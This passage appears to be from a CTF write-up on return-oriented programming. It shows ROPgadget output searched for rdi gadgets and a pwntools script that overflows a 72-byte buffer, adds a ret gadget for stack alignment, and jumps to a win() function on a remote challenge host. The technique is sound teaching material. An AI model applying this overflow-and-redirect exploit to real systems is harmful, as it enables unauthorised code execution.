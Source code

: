 Combine it with `grep` to look for specific registers.

```
$ ROPgadget --binary vuln-64 | grep rdi

0x0000000000401096 : or dword ptr [rdi + 0x404030], edi ; jmp rax
0x00000000004011db : pop rdi ; ret
```


# Example ROP challenge solved in Citadel : 

in a chall called return of stack i used a ret gagdget to align our payload.

```py
win_addr = 0x4011a0   
ret_gadget = 0x40101a  



print(f"win() address: {hex(win_addr)}")
print(f"ret gadget: {hex(ret_gadget)}")
print()

# Connect to remote server
print("connect ti host")
io = remote(HOST, PORT)

# Receive the banner
io.recvuntil(b'cooked.')


# Buffer is 0x48
# Add ret gadget for x64 stack alignment
#  Add win() address 
offset = 72
payload = b'A' * offset
payload += p64(ret_gadget)
payload += p64(win_addr)

print(f"sending offset: {offset}, length: {len(payload)})")
io.sendline(payload)

print("server output : ")
response = io.recvall(timeout=2)

print(response)

print()
print(response.decode('latin-1', errors='ignore'))

io.close()
print("closed and if it reached here itll work i think")

```
